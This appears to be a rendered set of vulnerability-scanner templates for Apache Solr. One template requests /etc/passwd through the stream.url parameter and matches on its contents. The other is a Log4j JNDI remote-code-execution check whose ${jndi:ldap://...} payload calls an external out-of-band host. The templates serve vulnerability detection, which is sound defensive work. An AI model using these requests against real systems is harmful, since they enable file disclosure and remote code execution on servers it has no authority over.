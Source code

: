 ### Step - 2

```
GET /solr/{{core}}/debug/dump?stream.url=file:///etc/passwd&param=ContentStream HTTP/1.1
Host: {{Hostname}}
Accept-Language: en
Connection: close

```

### Matchers

**Type - status**

- status
  1. 200

**Type - regex**

- regex
  1. root:.\*:0:0:

### Extractors

**Type - regex**

- internal - True
- name - core
- group - 1
- regex
  1. "name"\:"(.\*?)"

---

# Apache Solr 7+ - Remote Code Execution (Apache Log4j)

## Description

- Apache Log4j2 \<=2.14.1 JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints. This vulnerability affects Solr 7+.

- severity - critical
- tags - cve,cve2021,solr,oast,log4j,rce,apache,jndi,kev

## Requests

- Method - GET

### URL

- {{BaseURL}}/solr/admin/collections?action=$%7Bjndi:ldap://$%7BhostName%7D.{{interactsh-url}}/a%7D
